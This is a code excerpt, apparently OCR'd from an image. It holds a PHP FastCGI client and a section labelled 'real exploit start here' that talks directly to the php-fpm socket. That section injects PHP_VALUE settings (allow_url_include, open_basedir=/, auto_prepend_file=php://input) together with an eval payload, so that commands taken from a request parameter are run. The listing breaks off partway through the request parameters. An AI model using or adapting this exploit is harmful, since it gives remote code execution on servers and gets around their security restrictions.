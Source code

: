 ```php
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        fwrite($this->_sock, $request);
        do {
            $resp = $this->readPacket();
            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
                $response .= $resp['content'];
            }
        } while ($resp && $resp['type'] != self::END_REQUEST);
        var_dump($resp);
        if (!is_array($resp)) {
            throw new Exception('Bad request');
        }
        switch (ord($resp['content']{4})) {
            case self::CANT_MPX_CONN:
                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
                break;
            case self::OVERLOADED:
                throw new Exception('New request rejected; too busy [OVERLOADED]');
                break;
            case self::UNKNOWN_ROLE:
                throw new Exception('Role value not known [UNKNOWN_ROLE]');
                break;
            case self::REQUEST_COMPLETE:
                return $response;
        }
    }
}
?>
<?php
// real exploit start here
if (!isset($_REQUEST['cmd'])) {
    die("Check your input\n");
}
if (!isset($_REQUEST['filepath'])) {
    $filepath = __FILE__;
}else{
    $filepath = $_REQUEST['filepath'];
}
$req = '/'.basename($filepath);
$uri = $req .'?'.'command='.$_REQUEST['cmd'];
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php eval(\$_REQUEST['command']);?>"; // php payload -- Doesnt do anything
$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
//$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = http://127.0.0.1/e.php";
$params = array(
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD'    => 'POST',
        'SCRIPT_FILENAME'   => $filepath,
        'SCRIPT_NAME'       => $req,
```